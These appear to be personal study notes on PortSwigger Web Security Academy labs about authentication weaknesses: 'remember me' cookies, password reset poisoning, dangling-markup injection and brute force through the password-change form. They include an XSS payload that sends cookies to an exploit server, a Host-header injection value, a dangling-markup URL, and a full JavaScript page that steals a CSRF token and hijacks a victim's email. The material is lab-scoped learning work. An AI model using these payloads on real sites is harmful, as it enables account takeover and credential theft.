## [Vulnerabilities in other authentication mechanisms](https://portswigger.net/web-security/authentication/other-mechanisms)

### Additional Account Management Mechanisms
**Always check** (password reset, email change, etc.) as may not be as robust as login forms:
- Password Reset
- Email Change
- Remember Me
#### "Remember Me"/"Stay logged in"
Often **handled by a "Remember me" persistent cookie** - but will bypass login alltogether if guessed. Thus, always check for:
- One-way encoding/decodings of cookies (e.g. `Base64`)
- Hashing algorithms (**hash known wordlists** to brute force)
	- Use common **hash reversers** like [MD5reverse](https://md5.gromweb.com/?md5=26323c16d5f4dabff3bb136f2460a943)
- Cookies generated from **static values** (e.g. usernames/ids)
##### Hashed cookie decoding:

Identifying hash (with [`name-that-hash`](https://formulae.brew.sh/formula/name-that-hash)):

**Attempt to find hashed text** - testing whether the cookie is the same for every login, and hashes for any known password.

Thus, cookie is `base64(username+':'+md5HashOfPassword)`.

To perform this in **Intruder:**

Then can send repeated requests:

##### XSS to steal cookies:
``` js
<script>document.location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

---
#### Resetting user passwords:
- **Sending new password by email** - highly susceptible to AiTM (emails synced across insecure channels)
- **URL-based reset** - if not using a high-entropy, randomly-generated user account token that is verified & invalidated on the back-end after resetting, 
- Can modify **request parameters** to potentially use a **valid token** requested by the attacker to reset **another user's password** 
##### [Password Reset Poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)
If reset URL is generated dynamically (e.g. based on app/user input), could be manipulated to **generate a password reset link** pointing to an **adversary-controlled domain** to **steal another user's reset token.**
###### Steps:
1. Request password reset for victim, **modify** `Host:` or `X-Forwarded-Host:` **headers to point to an adversary-controlled domain** (`evil.net`)
	- If manipulating `X-Forwarded-Host:`, keep `Host:` as the original server.
2. **Victim receives genuine password reset email** directly from the website, but with **attacker domain** (e.g. `https://evil-user.net/reset?token=sgjgad8ds6tf8sd`)
3. If link is fetched in any way (whether auto-clicked by AV-scanner, or email checker, or victim), password reset token is delivered to the attacker's server.
4. Attacker can visit the real site, supply stolen token & reset password 
##### [Lab](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup): Password reset via dangling-markup:
Even if reset link can't be controlled directly, can sometimes use `Host` header to inject HTML into sensitive emails, like with #dangling-markup attacks:

Even if `Host` can't be re-routed directly (e.g. if you get a `Server Error`), if this `Host` is reflected in any way (e.g. in an email body), can try changing the `port` to break out of & inject `HTML`:
- `Host: site.com:'<a href="//exploit-server.net`


If auto-scanned by an email AV, or rendered in the browser/email client, can cause a `GET` request to be sent containing the rest of the email body (`/?/login'>[…]` ), including the new password. 
#### Dangling-markup Attacks:
A kind of HTML injection exploiting unclosed or partially completed HTML tags/attributes in code, where the browser often interprets "dangling elements" (e.g. `">` to capture & include the `csrf` token in the URL, to then log it on the attacker's server.
  **Final URL:** `https://0a670063039399b183154730001c008c.web-security-academy.net/my-account?email=foo@bar"><button formaction="https://exploit-0a4700b4035299c3837a463301e200c1.exploit-server.net/exploit" formmethod="get">Click me</button>`
  
- To exploit the victim, can create an **exploit page** that will redirect the victim to the dangling-markup URL of the original site with the HTML-injected `Click me!` `csrf` stealer button, which *then* sends them back to the exploit page with the `csrf` token in URL. If present in the URL, the `csrf` token is stolen and used in a subsequent `POST` request to change user's email (as requested by lab).
>[!code]- csrf exploit server code:
> ``` html
> <body>
> <script>
> // Define the URLs for the lab environment and the exploit server.
> const academyFrontend = "https://0a670063039399b183154730001c008c.web-security-academy.net";
> const exploitServer = "https://exploit-0a4700b4035299c3837a463301e200c1.exploit-server.net/exploit";
> 
> // Extract the CSRF token from the URL.
> const url = new URL(location);
> const csrf = url.searchParams.get('csrf');
> 
> // Check if a CSRF token was found in the URL.
> if (csrf) {
>     // If a CSRF token is present, create dynamic form elements to perform the attack.
>     const form = document.createElement('form');
>     const email = document.createElement('input');
>     const token = document.createElement('input');
> 
>     // Set the name and value of the CSRF token input to utilize the extracted token for bypassing security measures.
>     token.name = 'csrf';
>     token.value = csrf;
> 
>     // Configure the new email address intended to replace the user's current email.
>     email.name = 'email';
>     email.value = 'hacker@evil-user.net';
> 
>     // Set the form attributes, append the form to the document, and configure it to automatically submit.
>     form.method = 'post';
>     form.action = `${academyFrontend}my-account/change-email`;
>     form.append(email);
>     form.append(token);
>     document.documentElement.append(form);
>     form.submit();
> 
>     // If no CSRF token is present, redirect the browser to a crafted URL that embeds a clickable button designed to expose or generate a CSRF token by making the user trigger a GET request
> } else {
>     location = `${academyFrontend}/my-account?email=foo@bar%22%3E%3Cbutton%20formaction=%22${exploitServer}%22%20formmethod=%22get%22%3EClick%20me%3C/button%3E`;
> }
> </script>
> </body>
> ```

**Result:**

- Can also do this with a simple `<script>location = "https://dangling-markup-url.com"</script>` redirect to steal the `csrf` token + copy it. Then , with *Intercept* on, request an email change for **your** account, replace the `csrf` with the victim's, modify to your desired email, and **Generate CSRF POC** (**Engagement tool**) in Burp. Then, set this `HTML` as the exploit server & deliver to victim. 

#### Password changes:
Typically involves entering your current password and then the new password twice. If the password change page/request is to be accessed directly without authentication (e.g. username is in a `hidden` field, or can be changed/specified in the request) could be **enumerated & brute-forced** by an attacker.

##### [Lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change): Password brute-force via password change
- Notice that when you submit two incorrect `"new passwords"`, instead of a login redirect, the status of the `"current-password"` is reflected on the page. Either it's `Current Password is incorrect`, or the `New Passwords Do Not Match` if the correct original password is given. Can thus brute-force the password for a given `username` from these error responses. 
